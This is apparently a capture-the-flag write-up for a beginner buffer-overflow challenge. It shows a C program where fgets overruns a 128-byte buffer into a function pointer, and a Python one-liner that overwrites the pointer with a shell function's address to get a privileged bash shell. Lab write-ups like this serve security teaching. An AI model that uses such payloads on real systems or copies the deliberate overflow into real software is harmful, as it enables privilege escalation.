


```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```

In this challenge, func `fgets` allows us input 132 characters but var `buf` only handles 128.

<br> So we can overwrite value of `func()` by address of `shell()` to get shell.

<br> Using gdb to get address of func `shell` is 0x08048516


```bash
cat <(python2 -c "print 'A' * 128 +'\x16\x85\x04\x08'") - | ./ch15
```


